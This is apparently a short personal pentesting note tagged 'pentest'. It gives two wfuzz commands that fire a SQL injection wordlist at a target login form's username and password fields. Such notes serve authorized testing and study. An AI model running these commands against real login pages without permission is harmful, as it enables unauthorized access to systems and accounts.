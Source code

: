 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```bash - kali
wfuzz -c -w /usr/share/wordlists/wfuzz/Injections/SQL.txt -d “username=FUZZ&password=FUZZ” -u $TARGET
```

```bash - kali
wfuzz -c -w /usr/share/wordlists/wfuzz/Injections/SQL.txt -d “username=admin&password=FUZZ” -u $TARGET
```

[[SQLText]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
